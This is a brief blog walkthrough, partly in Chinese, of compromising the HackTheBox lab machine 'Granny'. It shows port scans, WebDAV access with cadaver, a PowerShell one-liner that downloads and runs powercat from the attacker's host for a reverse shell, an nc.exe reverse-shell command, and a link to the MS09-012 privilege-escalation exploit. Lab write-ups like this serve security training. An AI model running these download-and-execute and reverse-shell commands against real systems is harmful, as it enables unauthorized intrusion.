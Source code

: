 ```yaml
---
layout: post
title:  "HackTheBox >_ Granny_15"
description: walkthrough
category: HackTheBox
---
```

# Granny_15

![]({{ site.url }}/assets/Granny_15.assets/20201124135916543_109708065.png)

`rustscan 10.10.10.15 -b 924 -t 1500 --no-nmap`

![]({{ site.url }}/assets/Granny_15.assets/20201124140246721_1721677686.png)

`nmap -sC -sV -Pn -p80 10.10.10.15`

![]({{ site.url }}/assets/Granny_15.assets/20201124140225323_454336053.png)

![]({{ site.url }}/assets/Granny_15.assets/20201124140158303_1322479329.png)

webdev

`cadaver http://10.10.10.15`

![]({{ site.url }}/assets/Granny_15.assets/20201124142011556_2110792929.png)

![]({{ site.url }}/assets/Granny_15.assets/20201124141941519_527828777.png)

kali端准备好powercat，建立监听及http服务

```bash
cp /usr/share/windows-resources/powercat/powercat.ps1 .
python -m SimpleHTTPServer 8080

```

`/c powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.30:8080/powercat.ps1');powercat -c 10.10.14.30 -p 1337 -e cmd"`

没有成功。上传nc

![]({{ site.url }}/assets/Granny_15.assets/20201124142728137_1814392910.png)

![]({{ site.url }}/assets/Granny_15.assets/20201124142928895_233850970.png)

`/c C:\Inetpub\wwwroot\nc.exe 10.10.14.30 1337 -e cmd.exe`

![]({{ site.url }}/assets/Granny_15.assets/20201124143055917_438178780.png)

![]({{ site.url }}/assets/Granny_15.assets/20201124143409647_749329897.png)

win2k3 很多都可以提权，这里使用了ms09-012，pr.exe

`https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS09-012/pr.exe`

![]({{ site.url }}/assets/Granny_15.assets/20201124151651540_543433755.png)

![]({{ site.url }}/assets/Granny_15.assets/20201124151254075_1143472871.png)

获得shell

![]({{ site.url }}/assets/Granny_15.assets/20201124151531932_517385894.png)

